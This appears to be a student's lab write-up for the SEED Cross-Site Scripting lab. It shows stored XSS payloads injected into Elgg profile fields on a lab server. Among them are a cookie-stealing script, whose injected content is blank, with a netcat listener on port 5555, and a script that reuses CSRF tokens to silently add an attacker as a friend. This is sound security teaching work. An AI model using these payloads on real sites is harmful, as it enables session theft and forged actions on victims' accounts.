





# Seedlab Week #7 (Cross-Site Scripting XSS Attack Lab)

# Question 1

### Task 1: Posting a Malicious Message to Display an Alert Window

In this task, our goal was to embed a JavaScript program in the Elgg user profile.

Programm to insert:
```html
<script>alert('XSS');</script>
```

First, we logged in with the `alice` username and `seedalice` password. Then, we navigated to Alice's profile page at `http://www.seed-server.com/profile/alice`, clicked on `Edit profile`, and pasted the JavaScript program into the `Brief description` field before and Save it.

As a result, any user who opened our profile page saw an alert window on the screen:

<p align="center" justify="center">
  
</p>


### Task 2: Posting a Malicious Message to Display Cookies

In this task, we aimed to show the user's cookies in an alert window.

Programm to insert:
```html
<script>alert(document.cookie);</script>
```

The solution was similar to the previous task: we inserted the script in the `Brief description` field of Alice's profile. Then, we logged in from another account (`boby` username and `seedboby` password).

When the `Members` page was opened, Alice's code executed, and we saw our cookies in the alert.

<p align="center" justify="center">
  
</p>

### Task 3: Stealing Cookies from the Victim’s Machine

In this task, our objective was to retrieve cookies from another user.

Programm to insert:
```html
<script>
    document.write('');
</script>
```

This code sends the cookies to port 5555, so we needed to listen on this port by using the command `nc -lknv 5555` in our terminal. We placed the code in Alice's profile and then logged in with Boby's account.

The output from terminal:

<p align="center" justify="center">
  
</p>

Thus, when another user (Boby) opened the `Members` page, we received his cookies.

### Task 4: Becoming the Victim’s Friend

In this task, we needed to write an XSS worm that would automatically add Samy as a friend to anyone who opened Samy's page.

#### Analyse HTTP request.

First step was to find out how the HTTP request looks like, we used Firefox’s `Header Live` tool.

We opened the `Header Live` and logined as a Samy (`samy`, `seedsamy`) and opened Alice's profile and clicked on `Add friend`.

<p align="center" justify="center">
  
</p>

We inspected the first request to retrieve all the necessary information.

It is `GET` request with this url: `http://www.seed-server.com/action/friends/add?friend=56&__elgg_ts=1731083830&__elgg_token=-TLgvgywckY6XBpLAcdx4w&__elgg_ts=1731083830&__elgg_token=-TLgvgywckY6XBpLAcdx4w`
<!-- Podem ver se vcs tambem tem 2 vezes o token e o ts -->
#### JS script 

Next, we modified our script to send a request to add a friend.

Final version would be:
```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts; 
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token; 
        
        //Construct the HTTP request to add Samy as a friend.
        var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token;
        
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

We constructed the `sendurl` variable based on the request URL, using Samy's friend ID (found as `"owner_guid":59` in the page HTML).

Finally, we placed this code in Samy's `About me` section (using `Edit HTML` to insert the code) and visited his profile page with a different account (Boby).

<p align="center" justify="center">
  
</p>

As a result, simply by visiting Samy's page, he was added to Boby's friends.

#### Asnwers

* Q1: Both lines include security tokens in our request, and they are expected by server, so without these lines, our XSS attack would be unable to perform authenticated actions (like adding friends) because the application would detect the request as unauthorized. 
    * First line: adds timestamp security token.
    * Second line: adds CSRF token.
* Q2: TODO

